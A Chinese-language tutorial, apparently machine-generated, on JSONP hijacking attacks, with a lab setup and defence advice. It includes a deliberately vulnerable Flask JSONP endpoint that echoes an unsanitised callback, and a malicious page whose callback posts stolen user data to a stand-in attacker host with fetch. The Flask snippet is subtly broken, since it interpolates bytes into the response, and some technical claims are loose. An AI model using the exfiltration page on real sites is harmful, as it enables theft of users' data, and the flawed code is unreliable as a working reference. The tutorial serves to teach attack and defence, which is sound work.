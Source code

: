 # JSONP劫持漏洞的攻击技术

## 1. 技术原理解析

### 1.1 JSONP简介
JSONP（JSON with Padding）是一种跨域数据交互的技术，通常用于解决浏览器同源策略的限制。JSONP通过动态创建`<script>`标签，利用`src`属性加载外部资源，并通过回调函数处理返回的数据。

### 1.2 JSONP劫持漏洞的成因
JSONP劫持漏洞的成因在于开发者未对JSONP请求进行严格的验证和授权，导致攻击者可以构造恶意页面，诱导用户访问，从而窃取用户的敏感数据。

### 1.3 底层实现机制
JSONP的实现机制如下：
1. 客户端通过动态创建`<script>`标签，指定`src`属性为跨域URL，并附带回调函数名。
2. 服务器端接收到请求后，将数据包装在回调函数中返回。
3. 客户端浏览器执行返回的JavaScript代码，调用回调函数处理数据。

攻击者利用这一机制，通过构造恶意页面，诱导用户访问，从而窃取用户的敏感数据。

## 2. 常见攻击手法和利用方式

### 2.1 基本攻击手法
1. **构造恶意页面**：攻击者创建一个包含恶意`<script>`标签的页面，指定`src`属性为目标JSONP接口，并附带回调函数名。
2. **诱导用户访问**：攻击者通过各种手段（如钓鱼邮件、社交工程等）诱导用户访问恶意页面。
3. **窃取数据**：当用户访问恶意页面时，浏览器会自动加载JSONP接口，并将返回的数据传递给攻击者定义的回调函数，从而窃取用户的敏感数据。

### 2.2 高级利用技巧
1. **绕过CORS**：JSONP劫持可以绕过CORS（跨域资源共享）限制，因为JSONP请求是通过`<script>`标签加载的，不受同源策略的限制。
2. **利用CSRF**：攻击者可以利用CSRF（跨站请求伪造）漏洞，诱导用户在已登录状态下访问恶意页面，从而窃取用户的敏感数据。
3. **结合XSS**：攻击者可以将JSONP劫持与XSS（跨站脚本攻击）结合，通过XSS漏洞注入恶意脚本，进一步扩大攻击范围。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
1. **目标服务器**：搭建一个简单的JSONP接口，返回用户的敏感数据。
   ```python
   from flask import Flask, request, jsonify

   app = Flask(__name__)

   @app.route('/jsonp', methods=['GET'])
   def jsonp():
       callback = request.args.get('callback')
       data = {'username': 'admin', 'email': 'admin@example.com'}
       return f"{callback}({jsonify(data).data})"

   if __name__ == '__main__':
       app.run(debug=True)
   ```

2. **恶意页面**：创建一个包含恶意`<script>`标签的页面。
   ```html
   <!DOCTYPE html>
   <html>
   <head>
       <title>JSONP劫持</title>
   </head>
   <body>
       <script>
           function stealData(data) {
               alert('窃取的数据: ' + JSON.stringify(data));
               // 将数据发送到攻击者服务器
               fetch('https://attacker.com/steal', {
                   method: 'POST',
                   body: JSON.stringify(data)
               });
           }
       </script>
       <script src="http://target-server/jsonp?callback=stealData"></script>
   </body>
   </html>
   ```

### 3.2 攻击步骤
1. **启动目标服务器**：运行上述Python代码，启动目标服务器。
2. **访问恶意页面**：在浏览器中访问恶意页面，观察是否弹出包含用户敏感数据的弹窗。
3. **窃取数据**：攻击者可以通过查看浏览器控制台或攻击者服务器的日志，确认是否成功窃取数据。

## 4. 实际的命令、代码或工具使用说明

### 4.1 使用工具进行JSONP劫持
1. **Burp Suite**：使用Burp Suite的Repeater功能，手动构造JSONP请求，测试目标接口是否存在JSONP劫持漏洞。
2. **OWASP ZAP**：使用OWASP ZAP的Active Scan功能，自动检测目标网站是否存在JSONP劫持漏洞。

### 4.2 防御措施
1. **验证来源**：在服务器端验证JSONP请求的来源，确保请求来自可信的域名。
2. **使用CSRF Token**：在JSONP请求中添加CSRF Token，防止CSRF攻击。
3. **限制回调函数名**：在服务器端限制回调函数名的长度和字符集，防止攻击者注入恶意代码。

## 5. 总结
JSONP劫持漏洞是一种常见的Web安全漏洞，攻击者可以通过构造恶意页面，诱导用户访问，从而窃取用户的敏感数据。开发者应加强对JSONP请求的验证和授权，防止此类漏洞的发生。通过本文的技术解析和实战演练，读者可以深入理解JSONP劫持漏洞的攻击技术，并掌握相应的防御措施。

---

*文档生成时间: 2025-03-11 14:20:27*
